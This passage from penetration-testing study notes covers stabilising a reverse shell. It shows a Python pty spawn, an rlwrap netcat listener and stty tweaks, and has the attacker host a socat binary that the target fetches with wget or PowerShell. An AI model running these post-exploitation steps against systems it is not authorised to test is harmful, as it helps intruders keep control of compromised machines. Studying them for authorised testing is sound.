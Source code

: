 ##### Python

Almost every Linux distribution will have Python installed by default.

1. `python -c 'import pty;pty.spawn("/bin/bash")'` uses Python to spawn a better featured bash shell. Note that some targets may need the version of Python specified such as `python2` or `python3` as required.
2. `export TERM=xterm` will give us access to term commands such as `clear`.
3. Finally background the shell using CTRL+Z. Back in our own terminal, we can use `stty raw -echo; fg` to allow us to turn off our own terminal echo (gives access to tab completions, the arrow keys, and CTRL+C to kill processes). It then foregrounds the shell and completing the process.

![python](https://i.imgur.com/bQnFz1T.png)

If the shell dies, any input in your own terminal will not be visible (result of having disabled terminal echo). Type `reset` and enter to fix this.

##### rlwrap

rlwrap is a program gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell. However, some manual stabilization must still be utilized to use CTRL+C inside the shell. rlwrap is not installed by default on Kali and can be installed with: `sudo apt install rlwrap`.

To use rlwrap listener: `rlwrap nc -lvnp <PORT>`

- 'rlwrap' provides a much more fully featured shell. This technique is useful with Windows shells which are difficult to stabilize.
  - With Linux target, it is possible to completely stabilize with the same trick before: background the shell with CTRL+Z, then use `stty raw -echo; fg` to stabilize and re-enter the shell.

##### Socat Stable

The third easy way to stabilize a shell is initialize a netcat shell as a stepping stone to a full featured socat shell. This technique is limited to Linux targets, as Socat shells on Windows will be no more stable than a netcat shell.

1. First transfer a socat static compiled binary (a version of the program compiled to have no dependencies) to the target machine. A common way to achieve this would be use web server on the attacking machine inside the directory containing socat binary (`sudo python3 -m http.server 80`).
2. On the target machine, use the netcat shell to download the file with `wget <LOCAL-IP>/socat -O /tmp/socat` for Linux. On Windows machine CLI environment with Powershell: `Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`.

##### Change Terminal tty Size

Must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

1. Open another terminal and run `stty -a`. This will give a large stream of output.
2. In the reverse/bind shell, type `stty rows <number>` and `stty cols <number>`.
3. Input the numbers returned from running the command in own terminal. This will change the width and height of the terminal to allow programs such as text editors do display information to be accurate and correctly open.

### Socat
